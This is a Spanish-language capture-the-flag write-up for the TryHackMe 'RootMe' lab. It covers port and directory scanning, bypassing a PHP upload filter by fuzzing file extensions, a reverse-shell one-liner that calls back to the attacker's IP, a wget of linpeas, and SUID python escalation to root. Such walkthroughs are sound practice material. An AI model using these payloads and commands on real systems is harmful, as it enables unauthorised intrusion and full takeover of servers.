








[Read on English](README.md)

# RootMe - WriteUp/Walkthrought [THM]

## PWNED By 14Wual

[Github](https://github.com/14wual):  14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Paǵina Web](https://14wual.github.com) <br>

## Acerca del Laboratorio

**Nivel**: Easy <br>
**Sistema Operativo**: Linux <br>

## Recopilación

`Nmap`, hacemos un análisis rápido de todos los puertos, sin resolución `DNS` y resultados a tiempo real:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.31.212
```

Output:

```
[sudo] password for wual: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 08:43 CEST
Initiating SYN Stealth Scan at 08:43
Scanning 10.10.31.212 [65535 ports]
Completed SYN Stealth Scan at 08:43, 18.67s elapsed (65535 total ports)
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
           Raw packets sent: 93538 (4.116MB) | Rcvd: 81877 (3.275MB)
```

Como no me dió información ninguna, vamos ha realizar el siguiente escaneo:

```
sudo nmap -p- -sCV 10.10.31.212
```

Esta vez sí, tenemos `ssh` y una página web, puerto `80`, output:

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Este es el contenido de la página web:



Esta es una página web que no nos resuelve ningun dato, asi que vamos buscar sitios ocultos con feroxbuster, ffuf y gobuster (depende de si nos reportan info o no las usaremos o no.). `Feroxbuster`:

```
feroxbuster -u http://10.10.31.212/ 
```

Ferox, nos ha reportado información bastante valiosa, entre ella resaltamos la carpeta `/uploads`, este es el resultado final:

```
301      GET        9l       28w      309c http://10.10.31.212/js => http://10.10.31.212/js/
301      GET        9l       28w      310c http://10.10.31.212/css => http://10.10.31.212/css/
200      GET       11l       22w      263c http://10.10.31.212/js/maquina_de_escrever.js
200      GET      105l      188w     1697c http://10.10.31.212/css/home.css
301      GET        9l       28w      314c http://10.10.31.212/uploads => http://10.10.31.212/uploads/
301      GET        9l       28w      312c http://10.10.31.212/panel => http://10.10.31.212/panel/
200      GET       25l       44w      616c http://10.10.31.212/
```

Si entramos en panel veremos el siguiente contenido:



Vamos ha probar ha subir un archivo con extensión `.php`, para ver como reacciona, y de paso interceptar la solicitud `http` con `burpsuite` por si nos arroja información. El archivo llevará la siguiente información:

```php
<?php echo "Hello, world!"; ?>
```

Al interceptar la petición, nos dá la siguiente información:

```
POST /panel/ HTTP/1.1
Host: 10.10.31.212
Content-Length: 331
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.31.212
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjp0ssIIi6mDjXDAW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.31.212/panel/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=dpap9rnmiq4dirslctqnlkl5eo
Connection: close

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="fileUpload"; filename="helloworld.php"
Content-Type: application/x-php

<?php echo "Hello, world!"; ?>

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryjp0ssIIi6mDjXDAW--
```



Cuando aceptamos la peitición, nos salta este mensaje: **`PHP não é permitido!`**. Vamos ha probar con subir un html.

Código:

```
<!DOCTYPE html>
<html lang="en">
<head><title>PWNED by 14Wual</title></head>
<body><?php echo "Hello, world!"; ?></body>
</html>
```

Esta vez, podemos ver que sí se puede subir un html.



Vamos ha intentar subir código malicioso en el archvio `html`:

```
<?php -r '$sock=fsockopen("10.8.129.187",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ?>
```

Por otro lado:

```
sudo nc -lvp 1234
```

Al subirlo, me he dado cuenta que la página, bloquea directamente todo el contenido `php`. Asi que debemos buscar otra manera. Otra manera que he buscado es, crear un archivo `html` con `js` que ejecute un `fetch` a un archivo `php`. `Script js` (en el `php` tenemos una `reverse shell`):

```html
<button id="pwned-btn">Pwned Me</button>

<script>
    document.getElementById("pwned-btn").addEventListener("click", function() {
        console.log("Clicked!")
        fetch('http://10.8.129.187/pwned.php')
            .then(response => response.text())
            .then(data => {console.log(data);})
            .catch(error => {console.log('Error:', error);});
    });
</script>
```

Por desgracia, las `politicas del servidor` bloquean este tipo de conexiones.

```
Acess to fetch at 'http://10.8.129.187/pwned.php' from origin 'http://10.10.31.212' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

Debemos buscar otra manera. Esta vez, subiremos este script lo podeis ver [aqui](script/pwned.php), este es una [reverse shell de pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Pero antes vamos ha coger en `burpsuite` y que realice un par de modificaciones en el `intruder`.



En el `intruder`, modificamos esta parte de la `petición` (la extension del `filename`):

```
------WebKitFormBoundary3TIe4hBBBCF9Blkq
Content-Disposition: form-data; name="fileUpload"; filename="pwned.§php§"
Content-Type: application/x-php
```

Y ponermos estos payloads

```
php
php3
php4
php5
phpml
```

Vamos ha comprobar la página de uploads, por si se subió:



Al ver que si se subió, vamos ha abrir otra vez más el puerto[1234] de nuestra página con `nc` y entraremos en algun archivo de los subidos.



Si entramos en `/var/www` y hacemos `cat user.txt` encontraremos la primera clave: `THM{**********}`

Ahora nos pasaremos el linpeas a la maquina:

```
wget http://10.8.129.187/linpeas_base.sh
```

No nos reportó mucha información y el `sudo -l` no funciona, si hacemos un `find / -perm /4000 2>/dev/` vemos que podemos usar `python` con el `/usr/bin/python`, asi que vamos ha tirar una shell py: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` Y ya somos root! Si hacemos un id:

```
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Hacemos un cat `/root/root.txt` y obtenemos la flag >> THM{************}

Muchas gracias por llegar hast aquí!

